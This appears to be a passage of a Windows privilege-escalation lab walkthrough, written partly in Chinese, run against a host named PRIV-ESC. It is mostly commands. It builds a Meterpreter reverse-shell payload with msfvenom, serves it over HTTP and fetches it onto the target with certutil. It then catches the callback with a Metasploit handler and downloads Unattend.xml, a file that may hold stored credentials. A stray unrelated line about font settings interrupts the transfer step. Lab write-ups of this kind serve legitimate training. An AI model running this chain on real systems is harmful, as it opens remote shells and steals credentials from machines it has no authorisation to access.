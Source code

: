 ```
C:\Users\student>net user

User accounts for \\PRIV-ESC

--------------------------------------------------------------------
Administrator           DefaultAccount          Guest
student                 WDAGUtilityAccount
The command completed successfully.

C:\Users\student>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                         State
======================          ==================================  ========
SeShutdownPrivilege             Shut down the system                Disabled
SeChangeNotifyPrivilege         Bypass traverse checking            Enabled
SeIncreaseWorkingSetPrivilege   Increase a process working set      Disabled
```

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.5.2 LPORT=1234 -f exe > payload.exe
```

Set up a Web server to host the payload.exe file with python module SimpleHTTPServer.

```
python -m SimpleHTTPServer 80
```

Transfer it to target system:

`右键点击上边栏->Properties->Font->Size 24`

certutil is an inbuilt Windows utility that can be used to download file from the server.

```
C:\User\student>cd Desktop
C:\User\student\Desktop>certutil -urlcache -f http://10.10.5.2/payload.exe payload.exe
```

Back to Kail and shutdown the Web server.

```
service postgresql start && msfconsole

use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LPORT 1234
set LHOST 10.10.5.2
run
```

在目标上执行payload.exe，获取meterpreter session.

```
meterpreter > sysinfo
meterpreter > search -f Unattend.xml
meterpreter > cd C:\\
meterpreter > cd Windows
meterpreter > cd Panther
meterpreter > dir
meterpreter > download unattend.xml
```
